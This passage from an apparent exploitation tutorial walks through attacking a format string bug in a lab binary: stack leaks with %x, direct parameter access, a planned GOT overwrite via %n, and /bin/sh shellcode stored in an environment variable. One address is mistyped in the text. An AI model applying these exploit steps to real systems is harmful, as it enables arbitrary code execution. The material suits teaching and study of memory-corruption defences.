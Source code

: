 Jackpot! We can use this to write arbitrary data to a memory location that we
control!!!! More on that later, first we need to find out how to access the data
we supplied (so that we can provide our own address to write data to)
```
  $ ./fmt AAAA.%x.%x.%x.%x.%x.%x
  AAAA.bffff88b.1.b7ec71c9.41414141.2e78252e.252e7825
```
You can see from above that the 41414141 string is the 4th value on the stack
(0x41 hex is 65 decimal which is ascii A). Now up until now I have not mention
direct parameter access, this allows is to not have to specify all the %x's and
reference the 4th parameter as %4$x, see below
```
  $ ./fmt AAAA.%4\$x
  AAAA.41414141
```
You can now see that we are fetching our 4 A's of the stack (we have to escape
the $ as it is a special shell character). With the help of the %n specifier we
are going to write the address of some shellcode that we'll place on the stack
over the address of a function in the Global Offset Table (GOT for short) so to
sum up those 4 A's need to become the address of an entry in the GOT (and needs
to be called after the printf function call) and we need to write enough data so
that the %n value is equal to the address of our shell code.

## Shellcode 
I am not going to explain how I crafted this shellcode (I'll write another post
on how I did that). Run the below command in order to set up an environment
variable with our shell code in
```
  $ export EGG=$(python -c 'print "\x90" * 64 +
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
Here I'm using pythons ability to print hex chars to save the shellcode into the
EGG environment variable (see shellstorm.org for more examples of shellcode)

## Data Gathering
Now in order to exploit this vulnerability we need to gather a few pieces of
data

* Address of function in GOT to overwrite.

```
  $ objdump -R fmt

  fmt:     file format elf32-i386

  DYNAMIC RELOCATION RECORDS
  OFFSET   TYPE              VALUE 
  08049ff0 R_386_GLOB_DAT    __gmon_start__
  0804a000 R_386_JUMP_SLOT   printf
  0804a004 R_386_JUMP_SLOT   strcpy
  0804a008 R_386_JUMP_SLOT   __gmon_start__
  0804a00c R_386_JUMP_SLOT   __libc_start_main
  0804a010 R_386_JUMP_SLOT   putchar
```
we'll use the address of putchar as this gets called immediately after the
printf function so the address we are writing to is 0x0894a010 (this 32 bit / 4
byte address will become our A's in the payload string this means our format
string  will become $(python -c 'print "\x10\xa0\x04\x08"').%4\$n Which
translated means write the number 5 to the address 0x0804a010. Why the number 5?
Well we have written 4 bytes for the address (where the A's used to be) plus 1
period we used as a spacer. You may be thinking wait why is the address
backwards? Well this is because this machine is little endian (go and google!!).
Lets verify this in gdb!!
